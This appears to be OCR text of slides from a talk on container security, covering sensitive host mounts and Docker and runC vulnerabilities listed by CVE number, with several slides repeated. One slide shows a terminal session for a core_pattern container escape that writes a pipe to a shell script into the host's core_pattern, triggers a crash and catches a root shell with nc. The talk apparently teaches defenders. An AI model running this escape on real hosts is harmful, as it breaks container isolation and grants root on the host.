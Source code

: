 Bad idea #4: Sensitive mounts
Access to the underlying host's /proc mount is a bad idea
/host/proc/sys/kernel/core_pattern

Bad idea #4: Sensitive mounts
Access to the underlying host's /proc mount is a bad idea
/host/proc/sys/kernel/core_pattern

core_pattern escape
root@85c050f5:/# cd /proc/sys/kernel root@85c050f5:/# echo "|$overlay/shell.sh" > core_pattern root@85c050f5:/# sleep 5 && ./crash & root@85c050f5:/# nc -l -p 9001 bash: cannot set terminal process group (-1): Inappropriate ioctl for device bash: no job control in this shell root@ubuntu:/#

Part II: Vulnerabilities in Container Engines

Docker Vulnerabilities

Docker Vulnerabilities

CVE-2015-3630 CVE-2015-3631

CVE-2015-3627 CVE-2016-9662 CVE-2019-15664

Weak /proc permissions

Host FD leakage

CVE-2015-3627 CVE-2015-3629 CVE-2019-15664
Symlinks

Docker Vulnerabilities

CVE-2015-3630 CVE-2015-3631

CVE-2015-3627 CVE-2016-9662 CVE-2019-15664

Weak /proc permissions

Host FD leakage

CVE-2015-3627 CVE-2015-3629 CVE-2019-15664
Symlinks

Docker Vulnerabilities

CVE-2015-3630 CVE-2015-3631

CVE-2015-3627 CVE-2016-9662 CVE-2019-15664

Weak /proc permissions

Host FD leakage

CVE-2015-3627 CVE-2015-3629 CVE-2019-15664
Symlinks

RunC Vulnerability (CVE-2019-5736)

RunC Vulnerability (CVE-2019-5736)

Regular Container Startup

containerd > containerd-shim > runc

